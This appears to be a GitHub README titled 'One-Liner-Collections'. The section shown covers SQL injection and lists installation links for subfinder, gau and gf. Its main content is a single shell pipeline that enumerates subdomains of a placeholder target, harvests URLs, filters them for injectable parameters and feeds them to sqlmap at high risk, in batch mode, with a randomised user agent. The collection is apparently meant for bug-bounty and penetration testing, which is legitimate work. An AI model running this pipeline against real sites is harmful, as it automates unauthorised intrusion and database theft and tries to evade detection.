 # One-Liner-Collections
This Repositories contains list of One Liners with Descriptions and Installation requirements

──────────────────────────────────────────────────────────────────────────────────────────



# SQL Injection

## Installation Requirements
1. Subfinder : https://github.com/projectdiscovery/subfinder 
2. GAU       : https://github.com/lc/gau
3. GF        : https://github.com/tomnomnom/gf

## OneLiner
```
subfinder -d http://TARGET.com -silent -all | gau - blacklist ttf,woff,svg,png | sort -u | gf sqli >gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli_report.txt
```
